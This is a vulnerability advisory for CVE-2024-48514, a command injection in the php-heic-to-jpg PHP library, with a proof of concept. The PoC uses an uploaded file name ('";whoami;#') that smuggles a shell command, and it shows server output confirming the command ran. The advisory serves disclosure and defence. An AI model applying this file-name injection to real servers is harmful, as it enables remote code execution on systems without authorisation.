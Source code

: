 # CVE-2024-48514: php-heic-to-jpg is vulnerable to Code Injection

<!---
Remember to end each line under the "Information" header with 2 space characters ("  ") to tell Markdown to break the line.
--->
## Information
**Description:** This allows remote code execution by a user who can upload heic images, which affects the php-heic-to-jpg converter.  
**Versions Affected:** <= 1.0.5  
**Version Fixed:** [PullRequest #34](https://github.com/MaestroError/php-heic-to-jpg/pull/34) (1.0.6)  
**Researcher:** Marco Ris (https://github.com/marcoris)  
**Disclosure Link:** https://github.com/MaestroError/php-heic-to-jpg/issues/32  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2024-48514  

## Proof-of-Concept Exploit
### Description
php-heic-to-jpg <= 1.0.5 is vulnerable to remote code execution. An attacker who can upload heic images is able to execute code on the remote server via the file name. As a result, the CIA is no longer guaranteed. This affects php-heic-to-jpg 1.0.5 and below.  

### Usage/Exploitation
Upload a HEIC image file and intercept the request, e.g. with Burp Suite. Rename the file name to `”;whoami;#` and forward the request. The response shows the following error message with the disclosed `whoami` information:

```
The file &quot;;whoami;# has been uploaded.<br>
RuntimeException: Couldn't convert HEIC to JPG: 'Not enough arguments, needs: [command] [file1.heic] [file2.jpg]\nCreated by MaestroError\nwww-data' | Bin used: 'heicToJpg' HEIC: 'uploads/";whoami;#' Full Command: '/var/www/html/src/../bin/heicToJpg "uploads/";whoami;#" "uploads/";whoami;#-16541469646585ff874c9302.07761671" 2>&1' Output from heif-converter-image exe:  in /var/www/html/src/HeicToJpg.php:204
Stack trace:
#0 /var/www/html/src/HeicToJpg.php(71):
Maestroerror\HeicToJpg->processImage('uploads/";whoam...')
#1 /var/www/html/src/HeicToJpg.php(319):
Maestroerror\HeicToJpg->convertImage('uploads/";whoam...')
#2 /var/www/html/src/HeicToJpg.php(32):
Maestroerror\HeicToJpg::convert('uploads/";whoam...')
#3 {main}
```  
![Request with ";whoami;# filename](image.png)

![Response with remote code execution](image-1.png)
